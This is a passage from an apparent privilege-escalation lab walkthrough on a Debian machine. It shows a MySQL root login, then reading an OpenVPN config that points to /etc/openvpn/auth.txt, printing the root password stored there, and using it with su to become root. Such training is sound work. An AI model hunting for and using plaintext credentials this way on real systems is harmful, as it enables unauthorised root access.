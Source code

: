     ```bash
    mysql -h somehost.local -uroot -ppassword123
    ```

## Passwords & Keys - Config Files
Config files often contain passwords in plaintext or other reversible formats.

- List the contents of the user's home directory:

    ```bash
    user@debian:~$ ls /home/user
    myvpn.ovpn  tools
    ```

- Note the presence of a myvpn.ovpn config file. View the contents of the file:

    ```bash
    user@debian:~$ cat /home/user/myvpn.ovpn
    client
    dev tun
    proto udp
    remote 10.10.10.10 1194
    resolv-retry infinite
    nobind
    persist-key
    persist-tun
    ca ca.crt
    tls-client
    remote-cert-tls server
    auth-user-pass /etc/openvpn/auth.txt
    comp-lzo
    verb 1
    reneg-sec 0

    user@debian:~$ cat /etc/openvpn/auth.txt
    root
    password123
    ```

- The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:

    ```bash
    user@debian:~$ su root
    Password: 
    root@debian:/home/user# 
    ```

- What file did you find the root user's credentials in?

    ```bash
    /etc/openvpn/auth.txt
    ```

## Passwords & Keys - SSH Keys
Sometimes users make backups of important files but fail to secure them with the correct permissions.

